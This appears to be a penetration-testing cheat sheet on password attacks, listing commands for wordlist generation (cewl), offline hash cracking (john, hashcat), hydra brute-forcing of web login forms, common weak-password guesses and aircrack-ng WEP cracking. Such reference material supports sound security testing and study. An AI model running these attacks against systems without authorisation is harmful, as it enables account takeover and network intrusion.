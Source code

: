 * [Password Attack](#Password-Attack)
  * [john the ripper](#john-the-ripper)

# Password Attack
## Wordlists
Generate a custom wordlist
cewl -w createWordlist.txt -m <min password length> https://www.example.com

## Offline
https://hashes.org/search.php

## john the ripper
```sh
john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```

Hashcat << check type online - hashcat sample hash
hashcat -m\<type> -a 0 /usr/share/wordlists/rockyou.txt hash.txt

## Online
HTTP post form

hydra -L <wordlist> -P<password list> <IP> http-post-form "<file path>:username=^USER^&password=^PASS^&Login=Login:<fail message>"

1. easy password? e.g. password, 123456
2. Company or site name or its variations? e.g. use the software name as password
3. Name=Password and other hints
4. Simple sequences
5. Basic words

# WiFi
## WEP
```sh
# -b <bssid> : target selection: access point's MAC
aircrack-ng -b 00:21:91:d2:8e:25 WEP-Cracking.cap
```

